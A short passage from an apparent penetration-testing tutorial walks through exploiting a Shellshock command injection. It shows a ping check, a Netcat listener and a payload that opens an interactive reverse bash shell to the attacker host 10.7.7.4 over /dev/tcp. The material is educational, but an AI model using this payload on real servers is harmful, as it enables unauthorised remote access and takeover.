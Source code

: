 After some trial and error, you find the right command. The `ping -c 1 10.7.7.4` command will be executed on the server, and the pings are captured in the attacker's machine through a network sniffer, such as Wireshark:

![](img/00122.jpeg)

Now that you've found the correct injection command, you can try to gain direct shell access to the servers. For this, first set up your listener using Netcat as follows:

```

nc -lvp 12345

```

Then inject the command. This time, you are injecting a more advanced command that will yield a fully interactive shell if successful:

```

() { :;}; /bin/bash -c "ping -c 1 10.7.7.4; bash -i >& /dev/tcp/10.7.7.4/12345 0>&1"

```

![](img/00123.jpeg)
